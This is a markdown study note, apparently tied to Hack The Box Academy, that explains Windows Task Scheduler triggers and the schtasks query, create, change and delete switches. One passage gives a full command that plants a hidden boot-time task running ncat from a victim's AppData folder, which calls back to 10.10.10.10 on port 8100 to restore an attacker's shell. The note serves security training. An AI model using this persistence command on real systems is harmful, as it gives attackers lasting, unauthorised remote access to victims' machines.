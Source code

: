 # Windows Scheduled Tasks

Task Scheduler allows an administrator to configure tasks to run when a set of conditions are met. This is a convenient tool that can also be exploited by attackers if it is not properly monitored and logged. 

### Task Triggers

Scheduled Tasks are initialized when a set of triggers occur, causing the task to begin. Common triggers for scheduled tasks include:

- When a system event occurs
- At a specific time
- When a designated amount of time has passed
- When the computer is idle
- When the task is registered
- When the system boots
- When a user logs on
- When the Terminal Server session changes state

### Schtasks

The schtasks command is used to schedule tasks. You can learn more with the following command:

>schtasks /?

There are various switches we can use to retrieve different information about the tasks already in the system database. Here is a list of the commands and switches relevant to schtasks:
#### Query Syntax


- Query - this command searches the target host to determine if a specified task exists.
- /fo - sets the formatting of the tasks to Table, List, or #CSV 
- /v - displays verbose output about the advanced properties of tasks when in List or CSV mode.
- /nh - removes column headers and presents simplified output in List or #CSV format.
- /s - sets a #DNS name or #IP address in lieu of the default value of LocaHost. This is used to connect to a remote host and must format this as \\\\host.
- /u - runs commands based on the permission set of a specified user.
- /p - sets a password for command execution. Must be used when using the /p and /u switches.

#### Create Syntax

The first four commands and switches presented here MUST be used. All others are optional.

- Create - this command schedules a task.
- /sc - sets the schedule type and rate of recurrence.
- /tn - sets the name of a task, which must be unique.
- /tr - sets the trigger of the task, which may be an executable, script, or batch file.
- /s - specifies the host to run on.
- /u - specifies the user to utilize.
- /p - sets the password of the user-specified
- /mo - sets a modifier to run within the schedule.
- /rl - limits the privileges of the task to either Limited or Highest, with Limited set as default.
- /z - deletes the task after initial execution.

We will use the following command to create a task that executes #Ncat locally in the user's AppData directory, which will connect to host 10.10.10.10 on port 8100. This will perform a callback every time the machine boots - so if we establish a shell on the target but it is ended when the machine shuts down, we will be notified so we can reinstate our shell on the target.

Implement the above task with the following command:

>schtasks /create /sc ONSTART /tn "My Secret Task" /tr "C:\\Users\\Victim\\AppData\\Local\\ncat.exe 10.10.10.10 8100"

#### Change Syntax 

- Change - this command modifies an existing scheduled task.
- /tn - identifies the task being changed.
- /tr - modifies the program or action the task will run.
- /ENABLE - changes the state of the task to enabled.
- /DISABLE - changes the state of the task to disabled.
- 
You can simply run schtasks /run to start the task without triggers.

#### Delete Syntax

- Delete - deletes a scheduled task.
- /tn - identifies which task will be deleted.
- /s - specifies a name or IP address to delete the task from.
- /u - indicates the user to run the task under.
- /p - indicates the password to run the task as.
- /f - stops the confirmation warning.

You can simply run schtasks /delete if you choose. 
### Related:

- [Hack The Box Academy](https://academy.hackthebox.com/ 'hack the box academy home page')
- [HTB Academy Windows Scheduled Tasks](https://academy.hackthebox.com/module/167/section/1613 'HTB academy managing windows scheduled tasks module')
- [012 Windows Command Line Tools](012%20Windows%20Command%20Line%20Tools.md)
- [012 Windows Network Command Line](012%20Windows%20Network%20Command%20Line.md)
- [013 Additional Windows Tools](013%20Additional%20Windows%20Tools.md)
- [015 Windows Settings](015%20Windows%20Settings.md)
- [031 Troubleshooting Windows](031%20Troubleshooting%20Windows.md)
- [018 File Systems](018%20File%20Systems.md)
